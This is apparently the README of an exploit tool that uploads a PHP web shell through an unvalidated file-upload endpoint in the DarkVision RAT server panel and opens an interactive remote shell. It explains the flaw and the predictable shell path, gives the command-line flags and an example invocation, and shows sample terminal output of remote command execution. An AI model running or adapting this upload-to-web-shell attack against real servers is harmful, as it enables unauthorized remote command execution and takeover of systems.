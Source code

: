 # DarkVision RAT Password Recovery Vuln

## Summary

This script exploits a vulnerability in DarkVision RAT's upload endpoint that allows arbitrary file uploads. By exploiting this weakness, a malicious PHP shell can be uploaded and executed, granting the attacker remote command execution (RCE) on the server.

---

## How It Works

1. **File Upload**: The server fails to validate uploaded files, allowing attackers to upload executable PHP code.
2. **Dynamic Path**: The shell is stored in a predictable directory structure based on user-supplied `hwid` and `logfoldername` values.
3. **Command Execution**: The uploaded shell executes commands sent via HTTP GET parameters, enabling full RCE capabilities.

---

## Usage

### Installation
1. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```

### Execution
Run the script with the following parameters:
- **`-u`, `--url`**: Target URL for the upload endpoint (required).
- **`-o`, `--hwid`**: HWID value for directory (optional, default: random).
- **`-l`, `--logfoldername`**: Log folder name (optional, default: random).

#### Example
```bash
python exploit.py -u https://example.com/upload.php -o randomHWID -l logsFolder123
```

---

## Result

1. The shell is uploaded to a directory like:
   ```
   https://example.com/uploads/randomHWID/logsFolder123/shell.php
   ```
2. An interactive terminal is opened to execute commands on the server.

---

```plaintext
[*] Uploading shell to the target...
[*] Shell uploaded successfully.
[+] Shell URL: https://example.com/uploads/randomHWID/logsFolder123/shell.php

╔═════════════════════════════════════════════════════════════╗
║               DarkVision RAT Vuln - Terminal                ║
╚═════════════════════════════════════════════════════════════╝

darkvision-vuln@remote $ whoami
www-data
darkvision-vuln@remote $ ls
index.php
config.php
shell.php
darkvision-vuln@remote $ exit
[*] Exiting the terminal. Goodbye!
```

---
